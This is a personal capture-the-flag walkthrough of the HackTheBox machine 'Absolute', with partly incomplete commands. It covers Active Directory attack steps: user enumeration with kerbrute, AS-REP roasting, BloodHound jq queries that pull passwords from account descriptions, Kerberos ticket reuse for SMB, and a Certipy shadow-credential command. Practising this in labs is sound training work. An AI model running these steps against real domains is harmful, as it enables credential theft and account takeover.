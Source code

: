 # Absolute Helped-Through

Name: Absolute
Date:  
Difficulty:  
Goals:  
Learnt:
Beyond Root:
- Silver, Golden, Diamond and Sapphire Tickets
- Author and manage a Azure Policy for Kerberos and research that
- Make a DC for a Vulnerable machine I want to make - plus the: 
	- Docker containerise windows work station and kubenetes a web app for Vuln machine I want to template out and make
	- Windows Priv HTB academy for Workstation 

Twinned with [[Response-Helped-Through]]

- [[Absolute-Notes.md]]
- [[Absolute-CMD-by-CMDs.md]]


[Ippsec Video](https://www.youtube.com/watch?v=rfAmMQV_wss)
[Alh4zr3d Stream](https://www.twitch.tv/videos/1855594279)
[0xDF Written Writeup](https://0xdf.gitlab.io/2023/05/27/htb-absolute.html)


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)


```bash
# /etc/hosts
$IP DC.absolute.htb absolute.htb
```

```bash
wget -R 
exiftool images/* 
find . -type f -exec exiftool {} \; grep Author | awk -F: '{print $2}' | sed 's/^ //g' > ../users.txt
```

Username Anarchy 
```bash
cp users.txt ua-input.txt
sed -i 's/ /,/g' ua-input.txt
git clone
ruby username-anarchy/username-anarchy -i ua-input.txt -f flast,f.last,first.last,last.first > potential-usernames.txt 
```

```bash
sudo ntpdate -s dc.absolute.htb
# Check
sudo ntpdate dc.absolute.htb
# reset with


```

Kerbrute to enumerate users and get potential ASREProastable users
```bash
git clone
cd kerbrute 
go build

./kerbrute userenum --dc dc.absolute.htb -d absolute.htb potential-usernames.txt -o kerbrute.out
```


```bash
cat kerbrute.out |grep USERNAME | awk '{print $7}' > valid-users.txt
```


```bash
./kerbrute userenum --dc dc.absolute.htb -d absolute.htb valid-users.txt --downgrade -o kerbrute-dg-asreproast.out
```

Impacket can also do this
```
impacket-GetNPUsers
```


```bash
# cme -k kerberos authentication
crackmapexec smb -k -u d.klay -p 
# Either this is protect users account or more likely ntlm is disabled
```

Get TGT for d.klay
```bash
impacket-getTGT
```

BloodHound.py
```bash
KRB5CCNAME=d.klay.ccache /opt/Bloodhound.py/bloodhound.py -k -dc dc.absolute.htb -ns BloodHound.py $IP -c all -d absolute.htb -u d.klay > /tmp/
```


Check BloodHound as knowing the path ahead helps guide us.

Ippsec mentions manual parsing and his video: [Manually Parse Bloodhound Data with JQ to Create Lists of Potentially Vulnerable Users and Computers](https://www.youtube.com/watch?v=o3W4H0UfDmQ)

Bloodhound Debug mode to show Cipher Query
`Settings -> Tick Debug Mode`

Think like a list instead of a graph
```bash
# Convert Integers
(INT|tostring)
# Display all json nicely
cat user.json | jq .
# Put query at the end of the syntax
# Show the Keys 
cat user.json | jq '. | keys'
# Show all the data key
cat user.json | jq '.data'
# Show all the data key as a list - removes the external data{ ..json..}
cat user.json | jq '.data[]'
# Dump all names
cat user.json | jq '.data[].Properties | .name'
# All enabled accounts
cat user.json | jq '.data[].Properties | select( .enabled == true) | .name'
# All disabled accounts
cat user.json | jq '.data[].Properties | select( .enabled == false) | .name'
# All enabled accounts with descriptions may contain passwords
cat user.json | jq '.data[].Properties | select( .enabled == true) | select( .description != null) | .name + " " + .description'
# Enumerating accounts approximate logons and pwdlastset 
# Beware lastlogon is not replicate between DC
# lastlogontimestamp is replicated every two weeks
# Avoid honeypots are never logged in!
# Bruteforce accounts?
cat user.json | jq '.data[].Properties | select( .enabled == true) |  | .name + " " + (.lastlogontimestamp|tostring)'
# Output where pwdlastset is greater 
cat user.json | jq '.data[].Properties | select( .enabled == true) | select(.pwdlastset > .lastlogontimestamp)| .name + " " + (.lastlogontimestamp|tostring) '
# Get all Kerberoastable accounts
cat user.json | jq '.data[].Properties | select( .serviceprinciplenames != []) | .name'

# Show all machines annd there OSes
cat computers.json | jq '.data[].Properties | .name +  ":" + .operatingsystem'
# Find all non Windows 10 pro
cat computers.json | jq '.data[].Properties | select( . operatingsystem != "Windows 10 Pro") |  .name +  ":" + .operatingsystem'

# lastlogontimestamp for machine is the last time that machine was powered on
cat computers.json | jq '.data[].Properties | .name + ":" + (.lastlogintimestamp|tostring)'
# use EpochConverter too convert
# Check which machine have been on compared to a epoch
cat computers.json | jq '.data[].Properties | select( .lastlogintimestamp > $EPOCH) | .name'
```


Get the password
```bash
cat user.json | jq '.data[].Properties | select( .enabled == true) | select( .description != null) | .name + " " + .description'
```


LDAPsearch
```bash
# Provide password
kinit d.klay
/etc/hosts # must have dc.absolute.htb first
ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b="cn=users,dc=absolute,dc=htb" "users" "description"
```


Get a ticket for svc_smb account
```bash
impacket-GetTGT absolute.htb/svc_smb
```


```bash
KRB5CCNAME=svc_smb.ccache impacket-smbclient -K absolute.htb/svc_smb@$IP -target-ip $IP
# 
KRB5CCNAME=svc_smb.ccache impacket-smbclient -K absolute.htb/svc_smb@dc.absolute.htb -target-ip $IP
```

Python Virtual environments to manage impacket libraries and versioning
```python
python3 -m venv vmenv

source .env/bin/activate 
pip install .

# deactivate # To deactivate virtual environment
```


Sharing VPN with Window guest to your Linux guest 
```bash
# Check if IP fowarding is enabled 
cat /proc/sys/net/ipv4/ip_forward
# Enable IP forward
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
# Iptables rules 
# INTERFACE is whatever network device that is providing internet to your nic from `ip a`
# INF-IP is INTERFACE ip not include CIDR range
# RANGE is the range choosen or the CIDR range from INTERFACE
sudo iptables -A FORWARD -i tun0 -o $INTERFACE -m state --state RELATED,ESTABLISHED -j ACCEPT
sudo iptables -A FORWARD -i $INTERFACE -o tun0 -j ACCEPT
# Create masquerade/NAT rule to deal with connection not rewriting the ip adderss as Linux box is gateway, but not handling addresses
sudo iptables -t NAT -A POSTROUTING -s INF-IP/RANGE -o tun0 -j MASQUERADE
```

[[Sharp-Helped-Through]] has more verbose instruction

```powershell
# Create route on Windows machine
route add 10.10.10.0/23 mask 255.255.254.0 gw $LINUXIP
```

Ippsec reconfigures a network adapter, but you could also add entries into /etc/hosts on windows
```powershell
C:\Windows\System32\drivers\etc\hosts
```

Wireshark


```powershell
netsh
```


DACLEdit


Certipy to add shadow credential to winrm
```bash
KRB5CCANME=m.lovegod.ccache certipy shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip $IP --target dc.absolute.htb -account winrm_user
```


KRBRelay 

https://www.youtube.com/watch?v=rfAmMQV_wss 1.15.:50


## Beyond Root


## Testing to then design of Vulnerable Machine(s)

OSCP level Windows and Active Directory Jungle Gym

- Make OSCP level 
- Have good theme
- Make the Kubenetes, docker container only for pivoting not for escaping
- Make uber vulnerable switch once completed
- Ascii Art of completion